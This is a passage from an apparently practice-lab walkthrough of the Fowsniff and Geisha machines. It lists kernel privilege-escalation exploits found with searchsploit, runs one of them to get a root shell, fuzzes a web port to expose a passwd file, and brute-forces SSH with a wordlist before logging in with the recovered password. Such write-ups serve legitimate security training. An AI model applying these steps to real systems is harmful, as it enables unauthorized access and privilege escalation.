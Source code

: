 ```
------------------------ ---------------------------------
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation            
                        | linux/local/41886.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
                        | linux/local/44298.c
----------------------------------------------------------------------
------------------------ ---------------------------------
Shellcodes: No Results
```

6. Privilege Escalation: transfer the exploit to the target, run gcc to compile it and execute it give us root shell:
```
baksteen@fowsniff:~$ ./exploit
task_struct = ffff88003c761c00
uidptr = ffff88003aa77a84
spawning root shell
root@fowsniff:~# id
uid=0(root) gid=0(root) groups=0(root),100(users),1001(baksteen)
```

### Geisha

1. Enumeration: run port scan against the target found several port open: 21,22,80,7125,7080,8088,9198, then run `nmap` and find, since we have 3 ports that used for web service this will be the first step to enumerate further.

2. Web Fuzzing: running webenum against port 7125 which is run as nginx found `passwd` and `shadow`:
```
200      GET       27l       39w     1432c http://192.168.218.82:7125/passwd
403      GET        7l        9w      154c http://192.168.218.82:7125/shadow
```
Download that `passwd` file found that this is contains users, which mean that the web root directory on port 7125, most likely point out to the `/etc/` directory that contain `passwd` and `shadow` files, the user that look interesting is on the following line:
```
geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash
```

3. Brute Forcing: run tools like hydra or ssb (most faster):
```
└─$ ssb -w /usr/share/wordlists/rockyou.txt -t 30s geisha@192.168.218.82
...
[VLD] Connected with 'letmein'.
```
This is mean we found the password: `geisha:letmein`.

4. Initiation: run ssh with that password, we can successfully connected.
```
└─$ ssh geisha@192.168.218.82 -p 22         
...
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
geisha@geisha:~$
```
